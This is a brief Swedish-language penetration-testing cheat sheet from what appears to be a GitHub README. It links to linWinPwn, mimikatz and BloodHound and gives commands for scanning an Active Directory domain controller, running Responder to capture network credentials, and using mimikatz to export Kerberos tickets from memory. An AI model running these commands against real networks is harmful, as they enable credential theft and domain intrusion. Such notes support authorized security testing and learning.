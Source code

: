 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Bloodhound
https://github.com/BloodHoundAD/BloodHound

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Responder
```bash
responder -I eth0 -v
```

## Mimikatz
```bash
mimikatz.exe
privilege::debug
privilege::debug
sekurlsa::tickets /export
```

